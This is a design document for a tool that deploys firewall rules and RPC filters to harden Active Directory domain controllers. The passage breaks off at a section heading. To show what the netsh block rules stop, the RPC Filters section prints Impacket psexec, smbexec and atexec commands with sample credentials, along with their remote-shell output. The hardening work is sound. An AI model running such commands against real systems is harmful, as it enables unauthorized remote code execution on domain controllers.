# Domain Controller Firewall

## Change History {.unnumbered}

| Date       | Version | Author        | Description     |
|------------|--------:|---------------|-----------------|
| 2024-03-15 | 0.1     | P. Formanek   | Initial version |
| 2024-03-22 | 0.2     | M. Grafnetter | Firewall rules  |
|            |         |               |                 |

## Glossary {.unnumbered}

| Abbreviation | Explanation                                           |
|--------------|-------------------------------------------------------|
| DC           | Domain Controller                                     |
| ADDS         | [Active Directory Domain Services]                    |
| AD           | Active Directory (Domain Services)                    |
| DNS          | Domain Name System                                    |
| FQDN         | Fully Qualified Domain Name                           |
| GPO          | Group Policy Object                                   |
| PS           | [PowerShell]                                          |
| T0 / Tier 0  | Control plane of your environment – see [Admin Model] |
| SCOM         | [System Center Operations Manager]                    |
| NLA          | [Network Location Awareness]                          |
| PAW          | [Privileged Access Workstation]                       |
| FW           | Firewall                                              |
| WINS         | Windows Internet Name Service                         |
| ASR          | [Attack Surface Reduction]                            |
| WMI          | Windows Management Instrumentation                    |
| RPC          | [Remote Procedure Call]                               |
| DCOM         | Distributed Component Object Model                    |
| SMB          | Server Message Block                                  |
| TCP          | Transmission Control Protocol                         |
| UDP          | User Datagram Protocol                                |
| NTP          | Network Time Protocol                                 |
| SNMP         | Simple Network Management Protocol                    |
| RSAT         | [Remote Server Administration Tools]                  |
| ICMP         | Internet Control Message Protocol                     |
| DHCP         | Dynamic Host Configuration Protocol                   |
| LLMNR        | [Link-Local Multicast Name Resolution]                |
| mDNS         | Multicast DNS                                         |
| OS           | Operating System                                      |
| UI           | User Interface                                        |
| PoC          | Proof of Concept                                      |
| L3           | Layer 3 (Network Layer)                               |
| SIEM         | Security Information and Event Management             |
| ITDR         | Identity Threat Detection and Response                |
| EDR          | Endpoint Detection and Response                       |

[Admin Model]: https://petri.com/use-microsofts-active-directory-tier-administrative-model/
[System Center Operations Manager]: https://learn.microsoft.com/en-us/system-center/scom/get-started
[Network Location Awareness]: https://learn.microsoft.com/en-us/windows/win32/winsock/network-location-awareness-service-provider-nla--2
[Privileged Access Workstation]: https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-devices
[Attack Surface Reduction]: https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/overview-attack-surface-reduction?view=o365-worldwide
[Remote Procedure Call]: https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page
[Active Directory Domain Services]: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Remote Server Administration Tools]: https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools
[Link-Local Multicast Name Resolution]: https://www.rfc-editor.org/rfc/rfc4795.html

## Summary

> [!NOTE]
> Summary needs to be expanded.

The purpose of this tool is to simplify the deployment of a specific set of firewall rules and filters that can significantly reduce the attack surface of Domain Controllers without impacting the functionality of Active Directory.

This tool provides a flexible and repeatable way to deploy a secure configuration in your environment within minutes.


[](https://github.com/MichaelGrafnetter/active-directory-firewall/blob/main/LICENSE)

## Design

### Key Design Decisions

- The tool has been tested on Windows Server 2022 and Windows 11, but it should work on all versions of Windows Server and Windows clients currently supported by Microsoft.
- The firewall rules are designed with the assumption that you can define the following groups of IP addresses or network ranges:
  - **Client network** (servers and client computers)
  - **Management network** (endpoints used for Tier 0 administration)
  - **Domain Controller network** (all DCs in your forest)
- These rules are specifically designed for Domain Controllers and not for servers or client machines. It is expected that the DCs are only running the recommended set of roles, such as ADDS, DNS, and NTP server. No other roles have been tested.
- The rules are intended for DCs configured with **static IP addresses**, as recommended by Microsoft.
- The rules do not include configuration for SCOM, Backup agents, Log agents (except WEF push configuration), or any other custom agents running on DCs.
- The configuration focuses solely on Firewall rules and **does not include IPSec rules** or DC hardening settings, except for disabling several multicast services like LLMNR or mDNS.
- The configuration enforces GPO firewall rules only, meaning that any **local configurations on individual DCs will be ignored** during firewall rule evaluation.
- Only **Inbound rules** are configured and enforced.
- The configuration does not differentiate between the Domain, Private, and Public firewall profiles to avoid potential DC unavailability in case of incorrect network type detection by NLA.
- Many services that typically use dynamic ports are configured with **static port numbers** by the tool. This allows for easier tracing and troubleshooting at the network level and simplifies rule configuration for network firewalls.

### Host-Based Firewall vs Network-Based Firewall

Most network administrators only configure network-based firewalls and turn off the [Windows Firewall](https://learn.microsoft.com/en-us/windows/security/operating-system-security/network-security/windows-firewall/) on servers. Their reasoning is that they do not want to maintain duplicate sets of firewall rules and that Windows Firewall rule management is cumbersome and inflexible.



There are several security issues with this approach:

- As network-based firewalls only filter traffic between networks, they are incapable of blocking lateral movement inside of VLANs. Their functionality might further be degraded by poor network segmentation.
- The majority of network firewalls is incapable of differentiating between various RPC-based protocols, most of which use dynamic port numbers. The entire ephemeral TCP port range (49152-65535) is thus typically accessible on domain controllers from the entire corporate network, regardless of whether a particular port is used by the Netlogon service or for remote management of scheduled tasks.
- Network-based firewalls are commonly managed by dedicated teams, which might lack the required advanced Windows knowledge.

The best-practice is thus to configure both the network-based firewall and host-based firewall. Internet traffic should additionally be filtered by proxy servers.

This paper only focuses on secure configuration of host-based firewalls, i.e., Windows Defender Firewall with Advanced Security, on domain controllers. However, the [Inbound Firewall Rules Reference](#inbound-firewall-rules-reference) chapter might also serve as information source for configuring network-based firewalls.

### Need for Scripting

> [!NOTE]
> TODO: IPaddress ranges in rules screenshot

### Firewall Rule Merging

As mentioned in the [Key Design Decisions](#key-design-decisions) section, the set of rules is only prepared for DC-related roles and are is adjusted for various agents or non-standard roles running on a DC.  
If you need to add additional firewall rules for your environment (DC agents, SCCM management, etc.), it is recommended to create separate GPO and define all the custom rules there.  
Firewall rules, which are finally configured on a DC, are the outcome of all the rules merged from all the applied GPOs.  

> [!NOTE]
> Please keep in mind that our GPO is focused on the firewall rules, it is not a security baseline, and it is not covering recommended hardening of a DC. You should have separate and dedicated security baseline GPO applied to your DCs.



### Identifying Management Traffic

#### The Good

With some protocols, it is quite obvious that they should only be available from management networks or jump servers. This is the case of the **[Remote Desktop Protocol (RDP)](#remote-desktop---user-mode-tcp-in)** or **[Remote Event Log Management](#remote-event-log-management-rpc)**.

#### The Bad

There are several protocols that should primarily be used for remote system management, but some organizations also used them for client traffic.

One such example is the **[Windows Remote Management (WinRM)](#windows-remote-management-http-in)** protocol. Contrary to its name, it can not only be used by [Server Manager](https://learn.microsoft.com/en-us/windows-server/administration/server-manager/server-manager) and [PowerShell Remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting), but also by source-initiated [Windows Event Collector](https://learn.microsoft.com/en-us/windows/win32/wec/windows-event-collector) subscriptions.
As a best-practice, domain controllers should not be used as event forwarding targets, especially not by workstations. AD domains, where this recommendation is not followed, must first be reconfigured, before the strict firewall rules are applied to domain controllers.

Another example would be **[Active Directory Web Services (ADWS)](#active-directory-web-services-tcp-in)**. It is rare, but not unimaginable, to see legitimate PowerShell scripts with the `Get-ADUser` cmdlet running on client machines. Such scripts would stop working if ADWS is simply blocked on domain controllers.
On the other hand, it is relatively easy to rewrite these scipts to use the built-in [DirectorySearcher](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.directorysearcher) class, which relies on the [LDAP](#active-directory-domain-controller---ldap-tcp-in) protocol instead of ADWS. The added value would be the removal of the [ActiveDirectory](https://learn.microsoft.com/en-us/powershell/module/activedirectory/) PowerShell module dependency.

#### The Ugly

Unfortunately, there are some protocols which are required by all Windows clients, but can also be (mis)used to perform administrative operations.

One would be highly tempted to limit the **[Directory Replication Service (DRS) Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)** traffic to domain controllers and thus block potential [DCSync](https://adsecurity.org/?p=1729) attacks. Unfortunately, this protocol is also used by Windows clients during user logon, specifically its [IDL_DRSCrackNames](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/9b4bfb44-6656-4404-bcc8-dc88111658b3) RPC call, so it cannot simply be blocked by an L3 firewall rule.
One solution to this problem would be the deployment of the open-source [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) tool, which can selectively limit the scope of the dangerous [IDL_DRSGetNCChanges](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) operation. However, the project does not seem to be mature enough for production deployments. Its installation and configuration is cumbersome and requires deep understanding of the RPC protocol. Moreover, the binaries are not digitally signed, making them incompatible with some optional Windows security features, including [LSA Protection](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection). As a result, the most common approach is to just monitor domain controllers for unexpected replication traffic. Many products in the Identity Threat Detection and Response (ITDR) category are able to detect the DCSync attack, including [Microsoft Defender for Identity](https://learn.microsoft.com/en-us/defender-for-identity/what-is) and [Netwrix Threat Manager](https://www.netwrix.com/threat_detection_software.html).

The protocol that causes the most confusion among network administrators is undeniably the **[Server Message Block (SMB)](#active-directory-domain-controller---samlsa-np-tcp-in)**. Although its primary use is for file and printer sharing, it can also be used for remote system management through various RPC-based protocols. Because the functionality of AD heavily depends on the `SYSVOL` and `NETLOGON` file shares on domain controllers, the SMB protocol cannot simply be blocked on DCs. Deep packet inspection has also become less effective with the advent of SMBv3 encryption. Our approach to this issue is to [selectively block remote management over SMB named pipes](#rpc-filters).

Also worth mentioning is the **[Lightweight Directory Access Protocol (LDAP)](#active-directory-domain-controller---ldap-tcp-in)**, which gives Active Directory its name. It can surely be used for administrative operations, e.g., privileged group membership changes, but at least it does not provide the capability to directly execute arbitrary code on DCs. And with a well-configured SIEM or an ITDR solution, modifications of sensitive AD objects can be detected almost in real-time.

### Firewall Rule Deduplication

Many of the built-in/predefined Windows Firewall rules are actually duplicates of each other, as they open the same ports, even though their names might suggest otherwise. For example, all of the following rules open port `135/TCP` for the `rpcss` service:

- RPC Endpoint Mapper (TCP, Incoming)
- Active Directory Domain Controller (RPC-EPMAP)
- Microsoft Key Distribution Service (RPC EPMAP)
- DFS Replication (RPC-EPMAP)
- File Replication (RPC-EPMAP)
- File Server Remote Management (DCOM-In)
- Remote Service Management (RPC-EPMAP)
- Remote Scheduled Tasks Management (RPC-EPMAP)
- Remote Event Log Management (RPC-EPMAP)
- Remote Event Monitor (RPC-EPMAP)
- Remote Volume Management (RPC-EPMAP)
- Windows Defender Firewall Remote Management (RPC-EPMAP)
- Windows Management Instrumentation (DCOM-In)
- DFS Management (DCOM-In)
- COM+ Remote Administration (DCOM-In)
- COM+ Network Access (DCOM-In)
- Performance Logs and Alerts (DCOM-In)



Similarly, all of these firewall rules open port `445/TCP` for `System`:

- File and Printer Sharing (SMB-In)
- Active Directory Domain Controller - SAM/LSA (NP-TCP-In)
- Netlogon Service (NP-In)
- File Server Remote Management (SMB-In)
- DFS Management (SMB-In)
- Remote Event Log Management (NP-In)
- Remote Service Management (NP-In)


Moreover, both ports 135 and 445 need to be accessible by all Windows clients for Active Directory to function properly. To keep the configuration readable, it is reasonable to consolidate the redundant rules, and to create a single firewall rule for each static port number.

### Issues with Predefined Address Sets

#### Overview of Keywords

In addition to manually enumerating IP address ranges, the firewall rule scope configuration allows the use of predefined sets of computers, known as keywords.


These keywords are briefly described in the [MS-FASP: Firewall and Advanced Security Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-fasp/d69ec3fe-8507-4524-bdcc-813cbb3bf85f) document. However, there is no public documentation available that explains how the keywords are defined and under what circumstances the corresponding IP addresses are updated.

#### Intranet

The *Intranet* keyword is based on the Subnet definition from Active Directory Sites and Services. However, our tests have shown that the corresponding firewall rule scopes are not re-evaluated after adding or deleting a subnet. Even multiple server reboots do not seem to resolve this issue. Due to this unreliability, we have decided not to use the *Intranet* keyword in any firewall rules.



#### Internet

The *Internet* keyword is presumed to include anything not defined as the *Intranet* keyword. However, due to the unpredictable and undocumented behavior of the *Intranet* keyword, we have decided not to use the *Internet* keyword in any firewall rules as well.

#### DNS Servers

The *DNS Servers* keyword is functional and respects all DNS servers defined in the network adapter properties. If a new DNS server IP address is configured, a network adapter state change (disable/enable, server restart, etc.) is required for the corresponding firewall rules to be automatically updated.



#### Additional Keywords

Additional keywords are available and although they seem to be mostly working, they are not relevant to inbound firewall rule configuration for Domain Controller:

- Local subnet
- DHCP servers
- WINS servers
- Default gateway
- Remote Corp Network
- PlayTo Renderers
- Captive Portal Addresses

### Avoiding Localized Rule Names

All of the built-in firewall rules are localized and displayed based on the OS language. However, this feature relies on RSAT being installed on the management computer. If RSAT is absent, the UI may show references to missing DLL files instead of the actual firewall rule display names.



To ensure consistent firewall rule name display regardless of RSAT or the OS locale, we have decided to use only English rule names.

### Dealing with GPO Tattooing

Some firewall-related settings are not removed from the domain controllers after they fall out of scope of the GPO. These changes are thus permanent and require manual removal. Such settings are called **unmanaged** and the resulting behavior is known as GPO tattooing. To address this issue, configuration files use ternary logic:

- `true` ⇒ The setting is enabled by the GPO.
- `false` ⇒ The setting is disabled by the GPO.
- `null` ⇒ The local setting is not changed by the GPO.

As a consequence, before the value of an unmanaged setting can be changed from `true` to `null`, it must temporarily be set to `false`.  Keep in mind that it may take time for the new settings to propagate to all domain controllers due to replication latency. Additionally, some settings may require a reboot.

The following settings in this project are known to cause tattooing:

- [NtdsStaticPort](#ntdsstaticport)
- [NetlogonStaticPort](#netlogonstaticport)
- [FrsStaticPort](#frsstaticport)
- [DfsrStaticPort](#dfsrstaticport)
- [WmiStaticPort](#wmistaticport)
- [DisableNetbiosBroadcasts](#disablenetbiosbroadcasts)
- [DisableMDNS](#disablemdns)
- [EnableRpcFilters](#enablerpcfilters)

### System Reboots

Changes to some settings require a reboot of the target domain controller to get applied. This is the case of static port number configurations and settings that are modified through the startup script:

- [NtdsStaticPort](#ntdsstaticport)
- [NetlogonStaticPort](#netlogonstaticport)
- [FrsStaticPort](#frsstaticport)
- [DfsrStaticPort](#dfsrstaticport)
- [WmiStaticPort](#wmistaticport)
- [EnableRpcFilters](#enablerpcfilters)
- [LogFilePath](#logfilepath)

If a full system reboot of all domain controllers is undesirable, the following steps can be performed instead:

1. Make sure that the Group Policy changes are replicated to all domain controllers.
2. Invoke the `gpupdate.exe` command for the changed policies to be applied immediately.
3. Run the `gpscript.exe /startup` command for Group Policy startup scripts to be executed immediately.
4. Execute the `net.exe stop ntds && net.exe start ntds` command to restart the AD DS Domain Controller service.
5. Repeat steps 2-4 on all domain controllers.

### Infeasibility of Outbound Traffic Filtering

#### Reasons for Blocking Outbound Traffic

Generally speaking, outbound firewall rules on domain controllers might play an important role in blocking NTLM relay to workstations, preventing lateral movement, breaking malware C2 channels, and mitigating the risk of data breaches.

On the other hand, all of the [security standards we are familiar with](#security-standards-compliance) state that Windows Firewall should allow outbound connections by default. The [CIS benchmark](#center-for-internet-security-cis-benchmark) provides this rationale:

> Some people believe that it is prudent to block all outbound connections except those specifically approved by the user or administrator. Microsoft disagrees with this opinion, blocking outbound connections by default will force users to deal with a large number of dialog boxes prompting them to authorize or block applications such as their web browser or instant messaging software. Additionally, blocking outbound traffic has little value because if an attacker has compromised the system they can reconfigure the firewall anyway.

Furthermore, our security research has shown that configuring a reliable allow list for outbound traffic using the built-in features of Windows is impractical. We have identified several challenges that make it difficult to implement such a list.

#### Services with User Impersonation

The following important Windows services initiate outbound connections, yet they locally impersonate the currently logged-on user, making it impossible to target them in service-specific Windows Firewall rules:

- Windows Update (wuauserv)
- Cryptographic Services (CryptSvc)
- Background Intelligent Transfer Service (BITS)

To allow Windows Update to work, one would need to target the `svchost.exe` program in a firewall rule, thus allowing all services to connect to remote computers.

#### Scheduled Tasks with Custom Handlers

Some scheduled task actions are implemented using a custom DLL handler. As a result, the corresponding firewall rule would need to target the `taskhostw.exe` program, thus allowing all scheduled tasks to connect to remote computers.


#### Microsoft Defender for Identity

The [Network Name Resolution](https://learn.microsoft.com/en-us/defender-for-identity/nnr-policy) and [Lateral Movement Path Detection](https://learn.microsoft.com/en-us/defender-for-identity/deploy/remote-calls-sam) capabilies of Microsoft Defender for Identity depend on the domain controllers being able to connect over the RDP (TCP port 3389), RPC (TCP port 135), NetBIOS (UDP port 137), and SMB (TCP port 445) protocols to all workstations. It would thus be impossible to fully mitigate NTLM relay attacks against domain controllers using outbound firewall rules in environments with this product deployed. Moreover, the sensor needs to be able to communicate with Microsoft's servers as well.

#### Azure Arc

Large organizations might want to utilize the new hotpatching capability of Windows Server 2025. However, this feature is only available on servers managed by [Azure Arc](https://azure.microsoft.com/en-us/products/azure-arc). And the Azure Arc Agent contains several binaries and PowerShell scripts, which all need to be able to communicate with Microsoft's cloud, but their exact behavior is undocumented and subject to change.


Interestingly, the Azure Arc installer creates a custom outbound firewall rule called `SmeOutboundOpenException`, which targets all processes and is scoped to a hardcoded list of Microsoft's IP addresses. It is unclear how reliable and future-proof this rule actually is, as even [Google has never heard of it](https://www.google.com/search?q=SmeOutboundOpenException).


#### Installers Downloading Additional Files

Many application installers (`setup.exe` or `setup.msi`) do not work in a fully offline mode, as they need to download some prerequisites from the Internet. Microsoft .NET Framework and Visual C++ Runtime seem to be the most common installer dependencies. Then there are so-called web installers, which download all application binaries from online sources. As installers do not have well-defined names and can be executed from any location, it is impossible to selectively cover them by a firewall rule.

#### Dynamic Keywords

Windows Firewall includes a functionality called [dynamic keywords](https://learn.microsoft.com/en-us/windows/security/operating-system-security/network-security/windows-firewall/dynamic-keywords), which simplifies the management of Windows Firewall. This feature allows administrators to define the following types of keywords, which can then be referenced by firewall rules:

- Set of IP address ranges
- Fully qualified domain names (FQDNs)
- Autoresolution options

As the dynamic keywords cannot be referenced in firewall rules managed by Group Policies, we have decided not to use them in our configuration.

#### WinHTTP Proxy

After we verified that it was indeed impossible selectively filter outbound Internet traffic on domain controllers using Windows Firewall in a reliable way, we turned our attention to the built-in [WinHTTP proxy](https://learn.microsoft.com/en-us/windows/win32/winhttp/netsh-exe-commands#set-advproxy). The idea was to compile a list of all cloud endpoints used by Windows Server components and to configure the local WinHTTP proxy to only allow outbound HTTP(S) connections to these endpoints, while acting as a black hole for any other outbound traffic.


Although this approach seemed promising initially, we soon stumbled upon a few difficulties: The advanced WinHTTP proxy settings lack proper documentation and the ever-changing list of Microsoft's cloud services used by Windows Server turned out to be too large for us to maintain. And when the `netsh.exe winhttp reset autoproxy` stopped working repeatedly and manual registry cleanup was necessary to fix this issue, we definitely abandoned the idea of using WinHTTP proxy on domain controllers.


#### Escaping the Rabbit Hole

As a conclusion, the only viable and secure solution is to deploy 3rd-party Internet proxy servers that would limit the outbound traffic from domain controllers to select FQDNs. This list of approved addresses used by Microsoft's services should ideally be kept up-to-date by the proxy vendor.

> [!NOTE]
> TODO: Network protection, Telemetry, Windows Update P2P

And then there are of course air-gapped (isolated) environments, in which the growing number of cloud-dependent Windows Server features will never be used, thus eliminating the need to differentiate between legitimate and potentially malitious Internet traffic.

### Static RPC Ports

Several Windows services that use RPC dynamic ports by default can be configured to listen on static port numbers instead. This allows for easier tracing and troubleshooting at the network level and simplifies rule configuration for network-based firewalls.

The following services are supported by our solution:

| Service                         | Default Port | Applied Using                                         |
|---------------------------------|-------------:|-------------------------------------------------------|
| [NTDS](#ntdsstaticport)         |    38901/TCP | [Administrative Templates](#administrative-templates) |
| [Netlogon](#netlogonstaticport) |    38902/TCP | [Administrative Templates](#administrative-templates) |
| [FRS](#frsstaticport)           |    38903/TCP | [Administrative Templates](#administrative-templates) |
| [DFSR](#dfsr-static-port)       |     5722/TCP | [Startup Script](#startup-script)                     |
| [WMI](#wmi-static-port)         |    24158/TCP | [Startup Script](#startup-script)                     |

The port numbers can be changed by modifying the [configuration file](#configuration-file). To simplify the static port changes through the Group Policy Editor, the [DomainControllerFirewall.admx](#administrative-templates) file is provided as part of the solution.

References:

- [How to restrict Active Directory RPC traffic to a specific port](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/restrict-ad-rpc-traffic-to-specific-port)
- [Configuring DFSR to a Static Port - The rest of the story](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/configuring-dfsr-to-a-static-port-the-rest-of-the-story/ba-p/396746)
- [Setting Up a Fixed Port for WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/setting-up-a-fixed-port-for-wmi)
- [RPC Load Balancing Best Practices](https://learn.microsoft.com/en-us/windows/win32/rpc/load-balancing-best-practices)

### RPC Filters

#### RPC over Named Pipes

Most RPC protocols implemented in Windows support two transport types:

- [RPC over TCP/IP (ncacn_ip_tcp)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/95fbfb56-d67a-47df-900c-e263d6031f22)
- [RPC over SMB Named Pipes (ncacn_np)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/7063c7bd-b48b-42e7-9154-3c2ec4113c0d)

Each Windows service which uses the TCP/IP transport is assigned its own RPC dynamic port and in some cases, [static ports can be configured](#static-rpc-ports). Windows Firewall rules can then target services by their identifiers or program paths and either allow or block service-specific inbound traffic. It is thus possible to only allow remote management traffic from specific IP addresses.

The named pipes transport is more problematic, as standard Windows Firewall rules can only allow or block all SMB traffic (`445/TCP`) and Active Directory functionality heavily depends on the `SYSVOL` and `NETLOGON` file shares being available over the SMB protocol to all Windows clients. The SMB protocol is therefore very popular among malicious actors and many off-the-shelf hacktools exclusively use the named pipes to perform remote code execution and other undesirable operations.

Fortunately, it is possible to use the RPC Filters, a lesser known feature of the Windows Firewall, to partially limit undesirable RPC traffic. There is no graphical user interface for RPC Filters, but a subset of their capabilities can be configured using the `netsh.exe` tool. Each RPC protocol must be dealt with individually.

#### \[MS-SCMR\]: Service Control Manager Remote Protocol

The [\[MS-SCMR\]: Service Control Manager Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f) with UUID [367ABB81-9844-35F1-AD32-98F038001003](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/e7a38186-cde2-40ad-90c7-650822bd6333) is used by the built-in `services.msc` console and the `sc.exe` utility to remotely manage Windows services:

```shell
sc.exe \\contoso-dc query wuauserv
```

```txt
SERVICE_NAME: wuauserv
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

While the built-in Windows tools use the TCP/IP transport, hacktools commonly utilize the [\\PIPE\\svcctl](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/e7a38186-cde2-40ad-90c7-650822bd6333) SMB named pipe to execute code on remote systems:

```shell
impacket-psexec 'contoso/Admin:Pa$$w0rd@contoso-dc'
```

```txt
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on contoso-dc.....
[*] Found writable share ADMIN$
[*] Uploading file vQfMdUbQ.exe
[*] Opening SVCManager on contoso-dc.....
[*] Creating service hOdT on contoso-dc.....
[*] Starting service hOdT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2340]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```shell
impacket-smbexec 'contoso/Admin:Pa$$w0rd@contoso-dc'
```

```txt
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

The following sequence of `netsh.exe` commands can be used to block MS-SCMR connections over named pipes, while still allowing the TCP/IP traffic used by legitimate tools:

```txt
rpc filter
add rule layer=um actiontype=block filterkey=d0c7640c-9355-4e52-8335-c12835559c10
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=367ABB81-9844-35F1-AD32-98F038001003
add filter
```

#### \[MS-TSCH\]: Task Scheduler Service Remoting Protocol

The [\[MS-TSCH\]: Task Scheduler Service Remoting Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) with UUID [86D35949-83C9-4044-B424-DB363231FD0C](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbab083e-f79f-4216-af4c-d5104a913d40) is used by the built-in `taskschd.msc` console and the `schtasks.exe` utility to remotely manage scheduled tasks:

```shell
schtasks.exe /query /s contoso-dc /tn "\Microsoft\Windows\BitLocker\BitLocker Encrypt All Drives"
```

```txt
Folder: \Microsoft\Windows\BitLocker
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
BitLocker Encrypt All Drives             N/A                    Ready
```

While the built-in Windows tools use the TCP/IP transport, hacktools commonly utilize the [\\PIPE\\atsvc](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbab083e-f79f-4216-af4c-d5104a913d40) SMB named pipe to execute code on remote systems:

```shell
impacket-atexec 'contoso/Admin:Pa$$w0rd@contoso-dc' hostname
```

```txt
Impacket v0.11.0 - Copyright 2023 Fortra

[!] This will work ONLY on Windows >= Vista
[*] Creating task \ZNSsJjLS
[*] Running task \ZNSsJjLS
[*] Deleting task \ZNSsJjLS
[*] Attempting to read ADMIN$\Temp\ZNSsJjLS.tmp
CONTOSO-DC
```

Two additional interfaces with UUIDs [1FF70682-0A51-30E8-076D-740BE8CEE98B](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbab083e-f79f-4216-af4c-d5104a913d40) and [378E52B0-C0A9-11CF-822D-00AA0051E40F](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbab083e-f79f-4216-af4c-d5104a913d40) are exposed through the `\PIPE\atsvc` pipe and are only used by the legacy `at.exe` command line tool.

The following sequence of `netsh.exe` commands will block MS-TSCH connections over named pipes, while still allowing the TCP/IP traffic used by legitimate tools:

```txt
rpc filter

add rule layer=um actiontype=block filterkey=a43b9dd2-0866-4476-89dc-2e9b200762af
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=86D35949-83C9-4044-B424-DB363231FD0C
add filter

add rule layer=um actiontype=block filterkey=13518c11-e3d8-4f62-9461-eda11beb540a
add condition field=if_uuid matchtype=equal data=1FF70682-0A51-30E8-076D-740BE8CEE98B
add filter

add rule layer=um actiontype=block filterkey=1c079a18-e91f-4698-9868-68a121490636
add condition field=if_uuid matchtype=equal data=378E52B0-C0A9-11CF-822D-00AA0051E40F
add filter
```

#### \[MS-EVEN6\]: EventLog Remoting Protocol Version 6.0

